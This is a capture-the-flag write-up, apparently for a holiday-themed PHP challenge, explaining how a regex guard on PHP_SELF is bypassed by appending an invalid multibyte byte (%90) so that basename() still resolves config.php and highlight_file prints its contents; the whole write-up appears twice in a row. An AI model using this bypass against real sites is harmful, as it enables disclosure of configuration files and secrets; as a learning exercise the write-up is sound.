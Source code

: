 # Writeup

Looking at the source from that link, adding ?test gives source. 
So it seems like the server is configured somehow to render index.php if it starts with the index.php in url.

Visiting http://santasbingo.norwayeast.azurecontainer.io/index.php/abc still worked so. Lets add config.php and see if we trigger that if statement.

http://santasbingo.norwayeast.azurecontainer.io/index.php/config.php/

```text
Ha ha ha! You didn't say the magic word!! And this is not a Unix System... oh wait...
```

So to bypass this we just look at the regexp:

```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
```

```Breakdown
/config\.php\/*$/i

- config matches the characters config literally (case insensitive)
- \. matches the character . with index 4610 (2E16 or 568) literally (case insensitive)
- php matches the characters php literally (case insensitive)
- \/ matches the character / with index 4710 (2F16 or 578) literally (case insensitive)
- * matches the previous token between zero and unlimited times, as many times as possible, giving back as needed (greedy)
- $ asserts position at the end of the string, or before the line terminator right at the end of the string (if any)

Global pattern flags 
- i modifier: insensitive. Case insensitive match (ignores case of [a-zA-Z])
```

Based on this for it to match it needs to be exactly `config.php/` and end with a /. So adding anything else e.g. `config.php/test/` will fail this check and load the regular index page.

Now looking at the ?test function. The basename function keeps us within the directory, no way to bypass that as far as I know. The PHP_SELF is basically just the path in your domain. so `url.com/this/is/what/is/in/php_self/`.

So loading `index.php/config.php/?test` without that check would make the highlight function load config.php as that is the file basename of php_self would get.

So to bypass this we can send something to avoid that regexp but still make a valid config.php resolvement for the software. I tried with a space:

```
http://santasbingo.norwayeast.azurecontainer.io/index.php/config.php%20/?test


Warning: highlight_file(config.php ): failed to open stream: No such file or directory in /var/www/html/index.php on line 9

Warning: highlight_file(): Failed opening 'config.php ' for highlighting in /var/www/html/index.php on line 9
```

So I guess I have to send something that `basename` would not use but the regexp would see.

```
basename() is locale aware, so for it to see the correct basename with multibyte character paths, the matching locale must be set using the setlocale() function. If path contains characters which are invalid for the current locale, the behavior of basename() is undefined.
```

So I went to this [HTML URL-encoding Reference](https://www.eso.org/~ndelmott/url_encode.html) and tried some of the blank ones. No-one worked. Then from the 90-> range it seems like most of them actually works. So guessing that is multibyte characters. So adding /%90 at the end gives us a eureka moment! 

```http://santasbingo.norwayeast.azurecontainer.io/index.php/config.php/%90?test```

```php
<?php
define('FLAG', '${M@n_5@n7@_5ur3_Luvz_P4P_Y3t_I_4@73_I7!!!}');
```# Writeup

Looking at the source from that link, adding ?test gives source. 
So it seems like the server is configured somehow to render index.php if it starts with the index.php in url.

Visiting http://santasbingo.norwayeast.azurecontainer.io/index.php/abc still worked so. Lets add config.php and see if we trigger that if statement.

http://santasbingo.norwayeast.azurecontainer.io/index.php/config.php/

```text
Ha ha ha! You didn't say the magic word!! And this is not a Unix System... oh wait...
```

So to bypass this we just look at the regexp:

```php
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
```

```Breakdown
/config\.php\/*$/i

- config matches the characters config literally (case insensitive)
- \. matches the character . with index 4610 (2E16 or 568) literally (case insensitive)
- php matches the characters php literally (case insensitive)
- \/ matches the character / with index 4710 (2F16 or 578) literally (case insensitive)
- * matches the previous token between zero and unlimited times, as many times as possible, giving back as needed (greedy)
- $ asserts position at the end of the string, or before the line terminator right at the end of the string (if any)

Global pattern flags 
- i modifier: insensitive. Case insensitive match (ignores case of [a-zA-Z])
```

Based on this for it to match it needs to be exactly `config.php/` and end with a /. So adding anything else e.g. `config.php/test/` will fail this check and load the regular index page.

Now looking at the ?test function. The basename function keeps us within the directory, no way to bypass that as far as I know. The PHP_SELF is basically just the path in your domain. so `url.com/this/is/what/is/in/php_self/`.

So loading `index.php/config.php/?test` without that check would make the highlight function load config.php as that is the file basename of php_self would get.

So to bypass this we can send something to avoid that regexp but still make a valid config.php resolvement for the software. I tried with a space:

```
http://santasbingo.norwayeast.azurecontainer.io/index.php/config.php%20/?test


Warning: highlight_file(config.php ): failed to open stream: No such file or directory in /var/www/html/index.php on line 9

Warning: highlight_file(): Failed opening 'config.php ' for highlighting in /var/www/html/index.php on line 9
```

So I guess I have to send something that `basename` would not use but the regexp would see.

```
basename() is locale aware, so for it to see the correct basename with multibyte character paths, the matching locale must be set using the setlocale() function. If path contains characters which are invalid for the current locale, the behavior of basename() is undefined.
```

So I went to this [HTML URL-encoding Reference](https://www.eso.org/~ndelmott/url_encode.html) and tried some of the blank ones. No-one worked. Then from the 90-> range it seems like most of them actually works. So guessing that is multibyte characters. So adding /%90 at the end gives us a eureka moment! 

```http://santasbingo.norwayeast.azurecontainer.io/index.php/config.php/%90?test```

```php
<?php
define('FLAG', '${M@n_5@n7@_5ur3_Luvz_P4P_Y3t_I_4@73_I7!!!}');
```